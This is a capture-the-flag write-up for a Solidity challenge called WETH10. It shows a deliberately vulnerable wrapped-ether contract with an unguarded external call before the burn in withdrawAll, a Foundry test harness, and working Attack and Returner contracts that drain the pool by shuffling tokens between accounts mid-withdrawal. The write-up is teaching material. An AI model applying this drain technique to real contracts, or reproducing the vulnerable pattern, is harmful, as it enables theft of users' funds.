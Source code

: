 # WETH10

## Challenge

We are provided a contract:

```
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";

// The Messi Wrapped Ether
contract WETH10 is ERC20("Messi Wrapped Ether", "WETH10"), ReentrancyGuard {
    receive() external payable {
        deposit();
    }

    function _burnAll() internal {
        _burn(msg.sender, balanceOf(msg.sender));
    }

    function deposit() public payable nonReentrant {
        _mint(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) external nonReentrant {
        Address.sendValue(payable(msg.sender), wad);
        _burn(msg.sender, wad);
    }

    function withdrawAll() external nonReentrant {
        Address.sendValue(payable(msg.sender), balanceOf(msg.sender));
        _burnAll();
    }

    /// @notice Request a flash loan in ETH
    function execute(address receiver, uint256 amount, bytes calldata data) external nonReentrant {
        uint256 prevBalance = address(this).balance;
        Address.functionCallWithValue(receiver, data, amount);

        require(address(this).balance >= prevBalance, "flash loan not returned");
    }
}
```

and a poc setup:

```
contract Weth10Test is Test {
    WETH10 public weth;
    address owner;
    address bob;

    function setUp() public {
        weth = new WETH10();
        bob = makeAddr("bob");

        vm.deal(address(weth), 10 ether);
        vm.deal(address(bob), 1 ether);
    }

    function testHack() public {
        assertEq(address(weth).balance, 10 ether, "weth contract should have 10 ether");


        vm.startPrank(bob);

        // hack time!

        vm.stopPrank();
        assertEq(address(weth).balance, 0, "empty weth contract");
        assertEq(bob.balance, 11 ether, "player should end with 11 ether");
    }
}
```

Challenge Description:
The contract currently has 10 ethers. (Check the Foundry configuration.)
You are Bob (the White Hat). Your job is to rescue all the funds from the contract, starting with 1 ether, in only one transaction.

## Analysis

At first i thought that I could just use the execute function to call the _mint() function of the WETH10 contract and generate myself enough tokens to withdraw all the eth. I then learned that internal functions can never be accessed via call() from this stackoverflow post (https://ethereum.stackexchange.com/questions/15663/cannot-call-internal-function-via-call). 

The next thing I found is that the execute doesn't check for the value being bigger than 0, so you can also set it to 0 and call non payable functions as the contract. Unfortunately this was not the way to solve this chall. Nevertheless in the case of the WETH contract owning tokens itself we could transfer these tokens to us if we want, by abusing the call.

## Solution

The vulnerability lies in the external call in withdrawAll(). We get sent all the money our tokens are worth and afterward all our tokens are burnt. The problem is that inbetween these 2 checks we can do whatever we want:

1. Our token balance gets counted
2. We get sent the value of these tokens
3. !!! We can do whatever we want !!!
4. All the tokens we own are burnt.

So what we can do is to transfer the tokens somewhere else after they were counted and then let the account burn our remaining tokens(0) afterwards. Then we just give the tokens back to our original contract and withdraw again. Rinse and repeat until we have all the eth. To do this I implemented an attak kcontract that does the main work:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./WETH10.sol";
import "./Returner.sol";

contract Attack
{
    WETH10 target;
    Returner returner;
    constructor(address payable _target)
    {
        target = WETH10(_target);
        returner = new Returner(_target);
    }

    function attack() payable external
    {
        target.deposit{value: msg.value}();
        target.withdrawAll();

        for (int i = 0; i < 10; i++)
        {
            returner.returnTokens();
            target.withdrawAll();
        }

        (msg.sender).call{value: 11 ether}("");
    }

    fallback() external payable
    {
        target.transfer(address(returner), target.balanceOf(address(this)));
    }
}
```
As well as the Returner contract which we use to store the tokens during the burning phase:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./WETH10.sol";

contract Returner
{
    address owner;
    WETH10 target;

    constructor(address payable _target)
    {
        owner = msg.sender;
        target = WETH10(_target);
    }

    function returnTokens() public
    {
        target.transfer(owner, target.balanceOf(address(this)));
    }
}
```
Having these 2 we can just deploy the attack contract as bob and call the attack function to drain the contract. You can see the implementation in the POC.sol file.


